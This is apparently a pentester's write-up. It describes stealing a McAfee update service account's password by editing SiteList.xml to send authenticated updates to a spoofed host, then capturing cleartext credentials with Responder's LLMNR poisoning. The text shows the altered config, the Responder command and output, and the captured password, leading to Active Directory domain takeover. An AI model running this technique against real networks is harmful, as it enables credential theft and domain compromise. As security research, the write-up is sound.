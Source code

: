 
# McAfee privileged SiteList.xml leads to Active Directory domain privilege escalation

#### 02/02/2015 UPDATE

According to [Intel Security response](https://kc.mcafee.com/corporate/index?page=content&id=KB86503) : this is not a security flaw in McAfee's product !

For best practices [click here](https://kc.mcafee.com/corporate/index?page=content&id=KB86503).

---

During an intern pentest, I came accross a nice way to privesc in an Active Directory domain.
I owned an employee's laptop with [**McAfee Virusscan Enterprise 8.8**](http://www.mcafee.com/us/products/virusscan-enterprise.aspx) installed and a low privilege account.

Mcafee has a feature to customize update servers and can connect to these servers via HTTP or SMB. (*C:\ProgramData\McAfee\Common Framework\*) **SiteList.xml** contains juicy informations like credentials, internal server names, ...

```
<?xml version="1.0" encoding="UTF-8"?>
<ns:SiteLists xmlns:ns="naSiteList" Type="Client">
<SiteList Default="1" Name="SomeGUID">

<HttpSite Type="fallback" Name="McAfeeHttp" Order="26" Enabled="1" Local="0" Server="update.nai.com:80">
<RelativePath>Products/CommonUpdater</RelativePath><UseAuth>0</UseAuth>
<UserName></UserName>
<Password Encrypted="1">XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX</Password>
</HttpSite>

<UNCSite Type="repository" Name="Paris" Order="13" Server="paris001" Enabled="1" Local="0">
<ShareName>Repository$</ShareName><RelativePath></RelativePath><UseLoggedonUserAccount>0</UseLoggedonUserAccount>
<DomainName>companydomain</DomainName>
<UserName>McAfeeService</UserName>
<Password Encrypted="1">YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY</Password>
</UNCSite>

<UNCSite Type="repository" Name="Tokyo" Order="18" Server="tokyo000" Enabled="1" Local="0">
<ShareName>Repository$</ShareName><RelativePath></RelativePath><UseLoggedonUserAccount>0</UseLoggedonUserAccount>
<DomainName>companydomain</DomainName>
<UserName>McAfeeService</UserName>
<Password Encrypted="1">YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY</Password>
</UNCSite>

</SiteList></ns:SiteLists>
```

Let's check which rights we got with **McAfeeService**.

```
PS C:\Users\TAirane> net user McAfeeService /domain
The request will be processed at a domain controller for domain companydomain. 

User name                     McAfeeService
Full Name                     McAfee ePO
Comment                       Service Account for ePO Replication
User's comment
Country/region code           000 (System Default)
Account active                Yes
Account expires               Never
Password last set             29/01/2007 16:03:12
Password expires              Never
Password changeable           29/01/2007 16:03:12
Password required             Yes
User may change password      Yes

Workstations allowed          All
Logon script
User profile
Home directory
Last logon                    29/01/2016 17:55:09

Logon hours allowed           All

Local Group Memberships       *All Repository*Repository
Global Group memberships      *Domain Services Account*Workstations Administrator
                              *Servers Administrator*Domain Users
                              
The command completed successfully. 
```

Unfortunately the AV used GUI password, I couldn't edit the file. Thus, I downloaded and installed McAfee on my Windows Virtual Machine and just copied/pasted the previous precious sesame in my own SiteList.xml.

At this time, I knew that It was close. I edited the file like I could force an HTTP connection to any random server that I could spoof using [**Responder**](https://github.com/SpiderLabs/Responder). Actually the SiteList.xml looks like this.

```
<?xml version="1.0" encoding="UTF-8"?>
<ns:SiteLists xmlns:ns="naSiteList" Type="Client">
<SiteList Default="1" Name="SomeGUID">

<HttpSite Type="fallback" Name="PWNED!" Order="26" Enabled="1" Local="0" Server="fuckingrandomserver:80">
<RelativePath>LICORNE</RelativePath><UseAuth>1</UseAuth>
<UserName>McAfeeService</UserName>
<Password Encrypted="1">YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY</Password>
</HttpSite>

</SiteList></ns:SiteLists>
```

I clicked to update McAfee Antivirus and [Responder enters the matrix](https://www.youtube.com/watch?v=NEuZgK669zY).

```
root@kali:~/Tools/responder# python Responder.py -I eth0 --basic
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 2.3

  Original work by Laurent Gaffie (lgaffie@trustwave.com)
  To kill this script hit CRTL-C
...
[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [ON]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [ON]
    Force LM downgrade         [OFF]
    Fingerprint hosts          [OFF]

[+] Generic Options:
    Responder NIC              [eth0]
    Responder IP               [192.168.169.140]
    Challenge set              [1122334455667788]


[+] Listening for events...

[*] [LLMNR]  Poisoned answer sent to 192.168.169.141 for name fuckingrandomserver

[HTTP] Basic Client   : 192.168.169.141
[HTTP] Basic Username : McAfeeService
[HTTP] Basic Password : *\cool_its_a_strong_password/*
```

OMG, we got it ! Now, I can level up :) I can logon on the *Domain Controler* and access all workstations within the domain.

Mission accomplished !

![McAfee](img/McAfee.jpg)

Ty !

[@tfairane](https://twitter.com/tfairane) Greetz [@Fr33ster](https://twitter.com/Fr33ster)
